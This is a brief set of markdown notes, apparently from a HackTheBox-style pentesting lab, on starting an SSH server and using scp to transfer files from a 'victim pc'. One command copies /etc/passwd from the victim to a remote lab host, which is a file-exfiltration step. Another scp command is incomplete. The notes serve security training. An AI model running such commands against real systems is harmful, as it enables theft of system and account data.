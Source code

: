 # set up ssh server on our end first 
```
sudo systemctl enable ssh 
```

start the server 
```
sudo systemctl start ssh 
```

check for ssh listening port 
```
netstat -lnpt
```

# now scp frm victim pc 
```
scp user@192.168.49.128:/path/to/file
```

# scp upload 
```shell-session
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

